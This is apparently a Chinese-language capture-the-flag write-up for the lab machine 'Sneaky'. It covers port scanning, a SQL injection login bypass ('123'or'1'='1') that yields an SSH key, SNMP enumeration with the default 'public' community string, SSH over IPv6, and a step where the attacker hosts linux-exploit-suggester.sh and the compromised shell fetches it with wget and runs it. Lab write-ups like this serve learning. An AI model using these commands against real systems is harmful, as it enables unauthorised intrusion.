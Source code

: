 ```yaml
---
title: Sneaky(snmp默认口令泄露敏感信息)
categories:
- training
tags:
- training
---
```

20
===
## enum

```
Discovered open port 161/udp on 10.10.10.20                                    
Discovered open port 80/tcp on 10.10.10.20 

80/tcp  open   http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Under Development!
161/tcp closed snmp
```
## web

单引号报错，双单引号页面正常，说明有sql注入漏洞。
![28](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/28.PNG)

![29](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/29.PNG)

![30](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/30.PNG)

用户名admin，密码123'or'1'='1   登入页面，获得一个ssh密钥。

保存密钥为id.rsa文件。
```
chmod 400 id.rsa
ssh -i id.rsa admin@10.10.10.20
ssh -i id.rsa thrasivoulos@10.10.10.20
猜测用户名失败，Connection refused
```
### sql注入提取有效用户名

sqlmap -r sql

![31](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/31.PNG)

## snmp

[snmp&snmpwalk](https://whale3070.github.io/tools/2019/03/11/x/)
```
snmpwalk -c public -v 1 10.10.10.20
snmpwalk -Os -c public -v 1 10.10.10.20

use scanner/snmp/snmp_enum
set RHOSTS 10.10.10.20

python enyx.py  2c  public  10.10.10.20

ssh -i id.rsa -6 thrasivoulos@dead:beef:0000:0000:0250:56ff:feb9:d82f
```
![32](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/32.PNG)

【本地执行】python -m SimpleHTTPServer 888

【获得的shell执行】cd /tmp;wget http://10.10.14.18:888/linux-exploit-suggester.sh
chmod a+x linux*;./linux* > out.txt

找到了一个suid程序，可以进行缓冲区溢出来获得root权限。这一部分不是很熟悉，等以后有时间再深入学习下吧。

## 总结
本次实验演示了snmp public/private默认口令泄露主机敏感信息的情况。

ssh禁止了ipv4连接，Connection refused，但是还有ipv6地址。这个思路一般人想不到吧。。。
第一次使用了IPv6地址进行ssh登陆。每一次主机重启，IPv6地址都会改变。

msf的snmp_enum模块可以枚举默认密码的设备的详细信息，但是对于延时很严格，网络不好很可能得不到查询结果。


